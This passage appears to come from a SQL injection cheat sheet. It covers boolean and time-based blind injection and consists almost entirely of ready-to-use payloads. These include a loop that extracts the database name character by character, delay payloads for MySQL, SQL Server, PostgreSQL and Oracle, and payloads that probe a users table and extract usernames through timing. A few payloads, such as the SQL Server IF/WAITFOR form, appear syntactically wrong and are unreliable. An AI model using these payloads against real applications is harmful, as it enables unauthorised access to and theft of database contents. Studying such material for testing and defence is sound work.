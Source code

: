 #### Automated Boolean Extraction Example
```python
# Pseudocode for automated extraction
for position in range(1, max_length):
    for ascii_val in range(32, 127):
        payload = f"' AND ASCII(SUBSTRING(database(), {position}, 1)) = {ascii_val}--"
        if send_request(payload).indicates_true():
            result += chr(ascii_val)
            break
```

### Heavy Query (Time-Based Blind)

Uses time delays to infer information when boolean responses are not available.

#### Time Delay Functions
```sql
-- MySQL
' AND IF(1=1, SLEEP(5), 0)--
' AND BENCHMARK(5000000, MD5('test'))--

-- SQL Server
' AND IF(1=1, WAITFOR DELAY '0:0:5', 0)--

-- PostgreSQL
' AND CASE WHEN (1=1) THEN pg_sleep(5) ELSE 0 END--

-- Oracle
' AND CASE WHEN (1=1) THEN dbms_lock.sleep(5) ELSE 0 END FROM dual--
```

#### Time-Based Information Extraction
```sql
-- Test if database name starts with 'a'
' AND IF(ASCII(SUBSTRING(database(), 1, 1)) = 97, SLEEP(5), 0)--

-- Test table existence with delay
' AND IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), 0)--

-- Extract user count with delay
' AND IF((SELECT COUNT(*) FROM users) = 10, SLEEP(5), 0)--
```

#### Advanced Time-Based Techniques
```sql
-- Binary search for numeric values
' AND IF((SELECT COUNT(*) FROM users) > 50, SLEEP(5), 0)--
' AND IF((SELECT COUNT(*) FROM users) > 25, SLEEP(5), 0)--
' AND IF((SELECT COUNT(*) FROM users) > 12, SLEEP(5), 0)--

-- Conditional time delays
' AND CASE 
    WHEN (SELECT username FROM users LIMIT 1) LIKE 'a%' THEN SLEEP(3)
    WHEN (SELECT username FROM users LIMIT 1) LIKE 'b%' THEN SLEEP(4)
    ELSE SLEEP(1)
  END--
```
